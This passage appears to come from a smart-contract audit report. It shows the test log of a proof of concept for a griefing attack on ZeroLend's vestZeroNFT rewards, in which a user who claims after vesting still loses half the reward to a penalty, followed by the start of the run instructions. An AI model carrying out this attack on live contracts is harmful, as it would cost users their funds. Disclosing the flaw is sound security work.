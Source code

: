 ```
Address of user1  0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266
LastTokenId:  1n
The address of the owner of the lastTokenId:  0x9E545E3C0baAB3E08CdfD552C960A1050f373042
Execute the griefing attack
Call getReward to get the reward of the user1
LastTokenId:  2n
The address of the owner of the lastTokenId:  0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266
Get tokenIdToLockDetails of the lastTokenId
tokenIdToLockDetails:  Result(10) [
  0n,
  1710048507n,
  0n,
  20667989410000n,
  0n,
  0n,
  7776000n,
  1710048507n,
  true,
  2n
]
The pending reward of the user1:  20667989410000n
The user1 call the claim function of the vestZeroNFT contract to claim tokenID of Ant
Zero balance of user1 after griefing attack 99999999880000000000000000000n
Current timestamp 1710048507
Mine 7776001 blocks with interval of 1 second
Current timestamp 1717824508
Zero balance of user1:  99999999880000000000000000000n
Zero balance of user1 after griefing attack 99999999880000010333994705000n
Zero amout receive after claim  10333994705000n
Zero balance of vestZeroNFT after contract 0n
The unclaimed amount of the tokenID 0n
    ✔ Griefing attack to cause rewards of users to be locked (466ms)

```

Test Log explanation: 

So Pre-condition: User1 has aToken balance != 0 and the rewards of user1 and zero token is != 0. 

In this POC, the reward amount of user 1 is: 20667989410000 

Now after the time 7776001 that is the time passed the LinearDuration of the tokenNFT of ZeroVestedNFT, the user1 claim the token, user1 still suffer the penalty amount. 

After claim, the user1 get zero token amout: 10333994705000 

This amount is = 20667989410000 /2 so means that the zero token amount = 50% of the reward. 



To run the POC, 

Step 1: 
First clone the governance repository: 
```
git clone https://github.com/zerolend/governance.git
```
